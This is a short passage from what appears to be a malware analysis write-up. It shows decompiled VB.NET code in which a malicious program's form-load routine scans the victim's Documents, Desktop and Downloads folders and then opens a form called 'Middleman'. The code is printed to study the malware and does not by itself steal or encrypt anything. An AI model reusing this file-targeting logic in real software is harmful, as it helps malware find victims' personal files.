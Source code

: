 ![deobfuscation](/images/mhunter/deobfuscation.png)

## Operation of the malware

The malware will scan the following folders:
Personal
Desktop
Downloads

```
Private Sub Form1_Load(sender As Object, e As EventArgs)
	Try
		Me.method_0(Environment.GetFolderPath(Environment.SpecialFolder.Personal))
	Catch ex As Exception
	End Try
	Try
		Me.method_0(Environment.GetFolderPath(Environment.SpecialFolder.Desktop))
	Catch ex2 As Exception
	End Try
	Try
		Me.method_0(Environment.GetEnvironmentVariable("UserProfile") + "\Downloads")
	Catch ex3 As Exception
	End Try
	Class2.Class3_0.Middleman.Show()
End Sub
```

